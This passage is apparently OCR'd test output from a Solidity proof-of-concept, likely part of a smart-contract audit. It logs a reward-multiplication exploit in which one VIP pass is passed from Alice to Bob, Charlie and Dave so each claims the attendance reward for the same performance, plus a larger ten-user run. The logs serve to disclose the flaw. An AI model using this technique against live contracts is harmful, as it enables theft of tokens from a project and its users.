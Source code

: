 ```Solidity
  User 5 reward: 300000000000000000000
  User 6 reward: 300000000000000000000
  User 7 reward: 300000000000000000000
  User 8 reward: 300000000000000000000
  User 9 reward: 300000000000000000000

--- Exploiting Performance 2 ---

=== LARGE-SCALE EXPLOITATION RESULTS ===
  User 0 total BEAT: 600000000000000000000
  User 1 total BEAT: 600000000000000000000
  User 2 total BEAT: 600000000000000000000
  User 3 total BEAT: 600000000000000000000
  User 4 total BEAT: 600000000000000000000
  User 5 total BEAT: 600000000000000000000
  User 6 total BEAT: 600000000000000000000
  User 7 total BEAT: 600000000000000000000
  User 8 total BEAT: 600000000000000000000
  User 9 total BEAT: 600000000000000000000
  Total BEAT farmed: 6000000000000000000000
  Legitimate total (2 performances, 1 person): 600000000000000000000
  Exploitation multiplier: 10

[PASS] testSinglePassMultipleRewards() (gas: 567999)
Logs:
  === PASS LENDING REWARD MULTIPLICATION EXPLOIT ===

  --- Setup: Alice buys 1 VIP pass ---
  Alice VIP balance: 1
  Alice BEAT balance (welcome bonus): 5000000000000000000

--- Performance starts, exploitation begins ---
  STEP 1: Alice attends performance
  Alice attendance reward: 200000000000000000000
  Alice has attended: true

STEP 2: Alice transfers VIP pass to Bob
  Alice VIP balance: 0
  Bob VIP balance: 1
  Bob has pass: true

STEP 3: Bob attends SAME performance with transferred pass
  Bob attendance reward: 200000000000000000000
  Bob has attended: true

STEP 4: Bob transfers VIP pass to Charlie

STEP 5: Charlie attends SAME performance
  Charlie attendance reward: 200000000000000000000

STEP 6: Charlie transfers to Dave
  Dave attendance reward: 200000000000000000000

=== EXPLOITATION RESULTS ===
  Total BEAT farmed from 1 pass: 800000000000000000000
  Legitimate reward (1 person): 200000000000000000000
  Reward multiplication factor: 4
  Excess BEAT stolen: 600000000000000000000

Attendance tracking per user:
  Alice attended: true
  Bob attended: true
  Charlie attended: true
```